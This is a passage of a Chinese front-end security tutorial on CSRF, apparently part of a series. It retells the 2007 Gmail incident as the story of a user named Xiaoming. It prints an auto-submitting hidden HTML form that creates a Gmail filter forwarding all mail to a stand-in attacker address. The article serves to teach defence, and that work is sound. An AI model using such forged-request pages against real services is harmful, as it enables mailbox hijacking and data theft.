 ## 背景

**随着互联网的高速发展，信息安全问题已经成为企业最为关注的焦点之一，而前端又是引发企业安全问题的高危据点。在移动互联网时代，前端人员除了传统的 XSS、CSRF 等安全问题之外，又时常遭遇网络劫持、非法调用 Hybrid API 等新型安全问题。当然，浏览器自身也在不断在进化和发展，不断引入 CSP、Same-Site Cookies 等新技术来增强安全性，但是仍存在很多潜在的威胁，这需要前端技术人员不断进行“查漏补缺”。**

## 前端安全

近几年，美团业务高速发展，前端随之面临很多安全挑战，因此积累了大量的实践经验。我们梳理了常见的前端安全问题以及对应的解决方案，将会做成一个系列，希望可以帮助前端同学在日常开发中不断预防和修复安全漏洞。本文是该系列的第二篇。

今天我们讲解一下CSRF，其实相比前作的XSS（[传送门](http://www.freebuf.com/articles/web/185654.html)），CSRF的名气似乎并不是那么大，很多人都认为“CSRF不具备那么大的破坏性”。真的是这样吗？接下来，我们还是有请小明同学再次“闪亮”登场。

## CSRF攻击

### CSRF漏洞的发生

相比XSS，CSRF的名气似乎并不是那么大，很多人都认为CSRF“不那么有破坏性”。真的是这样吗？

接下来有请小明出场~~

**小明的悲惨遭遇**

这一天，小明同学百无聊赖地刷着Gmail邮件。大部分都是没营养的通知、验证码、聊天记录之类。但有一封邮件引起了小明的注意：

```
甩卖比特币，一个只要998！！
聪明的小明当然知道这种肯定是骗子，但还是抱着好奇的态度点了进去（请勿模仿）。果然，这只是一个什么都没有的空白页面，小明失望的关闭了页面。一切似乎什么都没有发生......
```

在这平静的外表之下，黑客的攻击已然得手。小明的Gmail中，被偷偷设置了一个过滤规则，这个规则使得所有的邮件都会被自动转发到haker@hackermail.com。小明还在继续刷着邮件，殊不知他的邮件正在一封封地，如脱缰的野马一般地，持续不断地向着黑客的邮箱转发而去。

不久之后的一天，小明发现自己的域名已经被转让了。懵懂的小明以为是域名到期自己忘了续费，直到有一天，对方开出了 $650 的赎回价码，小明才开始觉得不太对劲。

小明仔细查了下域名的转让，对方是拥有自己的验证码的，而域名的验证码只存在于自己的邮箱里面。小明回想起那天奇怪的链接，打开后重新查看了“空白页”的源码：

```html
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data">     <input type="hidden" name="cf2_emc" value="true"/>     <input type="hidden" name="cf2_email" value="hacker@hakermail.com"/>     .....    <input type="hidden" name="irf" value="on"/>     <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> </form> <script>     document.forms[0].submit();</script>
```

这个页面只要打开，就会向Gmail发送一个post请求。请求中，执行了“Create Filter”命令，将所有的邮件，转发到“hacker@hakermail.com”。

小明由于刚刚就登陆了Gmail，所以这个请求发送时，携带着小明的登录凭证（Cookie），Gmail的后台接收到请求，验证了确实有小明的登录凭证，于是成功给小明配置了过滤器。

黑客可以查看小明的所有邮件，包括邮件里的域名验证码等隐私信息。拿到验证码之后，黑客就可以要求域名服务商把域名重置给自己。

小明很快打开Gmail，找到了那条过滤器，将其删除。然而，已经泄露的邮件，已经被转让的域名，再也无法挽回了......

以上就是小明的悲惨遭遇。而“点开一个黑客的链接，所有邮件都被窃取”这种事情并不是杜撰的，此事件原型是2007年Gmail的CSRF漏洞：

[https://www.davidairey.com/google-Gmail-security-hijack/](https://www.davidairey.com/google-gmail-security-hijack/)
